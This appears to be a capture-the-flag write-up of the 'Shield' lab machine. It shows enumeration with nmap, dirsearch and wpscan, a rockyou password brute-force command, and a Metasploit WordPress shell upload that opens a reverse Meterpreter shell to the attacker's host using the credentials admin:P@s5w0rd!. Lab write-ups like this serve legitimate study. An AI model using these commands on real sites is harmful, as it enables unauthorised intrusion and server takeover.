 ```yaml
---
title: "Writeup: Shield"
date: 2021-01-02T03:34:30-04:00
categories:
  - Blog
  - Writeup
tags:
  - shield
  - update
  - Windows
  - nmap
  - nikto
  - wpscan
  - sqlmap
---
```


Here are notes from the named target:

**Enumeration**

NMAP

```yaml
ports=$(nmap -p- --min-rate=1000 -T4 10.10.10.29 | grep ^[0-9] | cut -d '/' -f 1 | tr '\n' ',' | sed s/,$//)
 nmap -sC -sV -p$ports 10.10.10.29
 ```
 vuln scan the SQL service:
 
 ```yaml
 sudo nmap -sU --script=ms-sql-info 10.10.10.29
 ```
 
 ```yaml
 PORT     STATE SERVICE VERSION
80/tcp   open  http    Microsoft IIS httpd 10.0
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/10.0
|_http-title: IIS Windows Server
3306/tcp open  mysql   MySQL (unauthorized)
```

Take a look at the web server:

Shows only the IIS start page so maybe scan it:

```yaml
nikto -h 10.10.10.29
```

nikto gave no results

*start dirsearch and it finds a site in the wordpress directory*


```yaml
┌──(kali㉿kali)-[~/dirsearch]
└─$ python3 dirsearch.py -e php -u http://10.10.10.29 --exclude-status 403,401

  _|. _ _  _  _  _ _|_    v0.4.1
 (_||| _) (/_(_|| (_| )                                                             
                                                                                    
Extensions: php | HTTP method: GET | Threads: 30 | Wordlist size: 8853

Error Log: /home/kali/dirsearch/logs/errors-21-01-02_04-14-59.log

Target: http://10.10.10.29/                                                         
                                                                                    
Output File: /home/kali/dirsearch/reports/10.10.10.29/_21-01-02_04-15-00.txt

[04:15:00] Starting: 
[04:16:03] 301 -    0B  - /Wordpress/  ->  http://10.10.10.29/wordpress/
[04:18:32] 200 -   24KB - /wordpress/                   
[04:18:32] 200 -    3KB - /wordpress/wp-login.php
                                                             
Task Completed   

```

*Wordpress Site with Login page*

Scan with wpscan:

```yaml
wpscan --url http://10.10.10.29/wordpress --enumerate p
_______________________________________________________________
         __          _______   _____
         \ \        / /  __ \ / ____|
          \ \  /\  / /| |__) | (___   ___  __ _ _ __ ®
           \ \/  \/ / |  ___/ \___ \ / __|/ _` | '_ \
            \  /\  /  | |     ____) | (__| (_| | | | |
             \/  \/   |_|    |_____/ \___|\__,_|_| |_|

         WordPress Security Scanner by the WPScan Team
                         Version 3.8.10
                               
       @_WPScan_, @ethicalhack3r, @erwan_lr, @firefart
_______________________________________________________________

[i] Updating the Database ...
[i] Update completed.

[+] URL: http://10.10.10.29/wordpress/ [10.10.10.29]
[+] Started: Sat Jan  2 04:26:20 2021

Interesting Finding(s):

[+] Headers
 | Interesting Entries:
 |  - Server: Microsoft-IIS/10.0
 |  - X-Powered-By: PHP/7.1.29
 | Found By: Headers (Passive Detection)
 | Confidence: 100%

[+] XML-RPC seems to be enabled: http://10.10.10.29/wordpress/xmlrpc.php
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 100%
 | References:
 |  - http://codex.wordpress.org/XML-RPC_Pingback_API
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_ghost_scanner
 |  - https://www.rapid7.com/db/modules/auxiliary/dos/http/wordpress_xmlrpc_dos
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_xmlrpc_login
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_pingback_access

[+] WordPress readme found: http://10.10.10.29/wordpress/readme.html
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 100%

[+] The external WP-Cron seems to be enabled: http://10.10.10.29/wordpress/wp-cron.php
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 60%
 | References:
 |  - https://www.iplocation.net/defend-wordpress-from-ddos
 |  - https://github.com/wpscanteam/wpscan/issues/1299

[+] WordPress version 5.2.1 identified (Insecure, released on 2019-05-21).
 | Found By: Rss Generator (Passive Detection)
 |  - http://10.10.10.29/wordpress/index.php/feed/, <generator>https://wordpress.org/?v=5.2.1</generator>
 |  - http://10.10.10.29/wordpress/index.php/comments/feed/, <generator>https://wordpress.org/?v=5.2.1</generator>

[i] The main theme could not be detected.

[+] Enumerating Most Popular Plugins (via Passive Methods)
[+] Checking Plugin Versions (via Passive and Aggressive Methods)

[i] Plugin(s) Identified:

[+] mesmerize-companion
 | Location: http://10.10.10.29/wordpress/wp-content/plugins/mesmerize-companion/
 | Latest Version: 1.6.120
 | Last Updated: 2020-12-14T17:38:00.000Z
 |
 | Found By: Urls In Homepage (Passive Detection)
 |
 | The version could not be determined.

[!] No WPVulnDB API Token given, as a result vulnerability data has not been output.
[!] You can get a free API token with 50 daily requests by registering at https://wpscan.com/register

```
Password attack with WPScan is possible but time consuming:

```yaml
┌──(kali㉿kali)-[~]
└─$ wpscan --url http://10.10.10.29/wordpress/ --passwords /usr/share/wordlists/rockyou.txt --usernames admin --max-threads 20   
```
Searchsploit  for WordPress version 5.2.1 found no exploits looking in google - nothing in google:

I signed up for the free wpscan API and added that to my host. then reran wpscan

Basically it showed 25 vulnerabilities but as we have admin access without launching going to use msf6

**METASPLOIT**

remember use and set commands also run and exploit

as I am on a VPN set LHOST otherwise it uses non vpn address


Google search for [metasploit wordpress reverse shell][msf6-commands]

```yaml
msf6 auxiliary > use exploit/unix/webapp/wp_admin_shell_upload 
[*] No payload configured, defaulting to php/meterpreter/reverse_tcp
msf6 exploit(unix/webapp/wp_admin_shell_upload) > set USERNAME admin
USERNAME => admin
msf6 exploit(unix/webapp/wp_admin_shell_upload) > set PASSWORD P@s5w0rd!
PASSWORD => P@s5w0rd!
msf6 exploit(unix/webapp/wp_admin_shell_upload) > set targeturi /wordpress
targeturi => /wordpress
msf6 exploit(unix/webapp/wp_admin_shell_upload) > set RHOSTS 10.10.10.29
RHOSTS => 10.10.10.29
msf6 exploit(unix/webapp/wp_admin_shell_upload) > set LHOST 10.10.14.87
LHOST => 10.10.14.87
msf6 exploit(unix/webapp/wp_admin_shell_upload) > exploit

[*] Started reverse TCP handler on 10.10.14.87:4444 
[*] Authenticating with WordPress using admin:P@s5w0rd!...
[+] Authenticated with WordPress
[*] Preparing payload...
[*] Uploading payload...
[*] Executing the payload at /wordpress/wp-content/plugins/hWGKLAJXgv/rRORqnxhOH.php...
[*] Sending stage (39282 bytes) to 10.10.10.29
[*] Meterpreter session 1 opened (10.10.14.87:4444 -> 10.10.10.29:51869) at 2021-01-04 16:16:53 -0500
[+] Deleted rRORqnxhOH.php
[+] Deleted hWGKLAJXgv.php
[!] This exploit may require manual cleanup of '../hWGKLAJXgv' on the target

meterpreter > 
```
## YEA





[msf6-commands]: https://www.hackingarticles.in/wordpress-reverse-shell/

